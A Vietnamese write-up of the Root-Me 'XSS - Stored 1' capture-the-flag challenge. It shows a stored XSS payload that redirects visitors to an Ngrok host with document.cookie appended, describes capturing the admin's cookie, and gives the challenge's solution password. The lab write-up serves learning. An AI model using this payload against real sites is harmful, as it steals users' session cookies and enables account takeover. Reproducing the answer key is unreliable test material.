

# Challenge: XSS - Stored 1
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 12 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1
- Giao diện web mở đầu, tại đây trang web cho phép nhập liệu và lưu trữ lại, kiểm tra lại thì ta cũng thấy nó bị lỗi XSS (Mặc dù đề có nêu)
<p align="center"></p>

- Để khai thác lỗi này thì ta cần 1 server để có thể nhận được thông tin từ lấy được từ challenge. Ta sử dụng Ngrok để tạo đường hầm (tunnel) giữa localhost và internet.
<p align="center"></p>
<p align="center"></p>
- Đề bài cho nói pass là cookie của admin... do vậy ta cần lấy ra cookie. Ở đây giải pháp là gởi cookie vào server của mình thông qua phương thức GET

```
<script>document.location="http://dfbe-125-235-212-70.ngrok.io/?cookie="+document.cookie</script>
```
<p align="center"></p>
- sau khi nhân nút send thì ta sẽ được chuyển đến server của ta 
<p align="center"></p>
- Đợi 1 lúc tầm 3-4 phút thì ta nhận được 1 request khác, với cookie của admin
<p align="center"></p>

## Kết quả password là `NkI9qe4cdLIO2P7MIsWS8ofD6`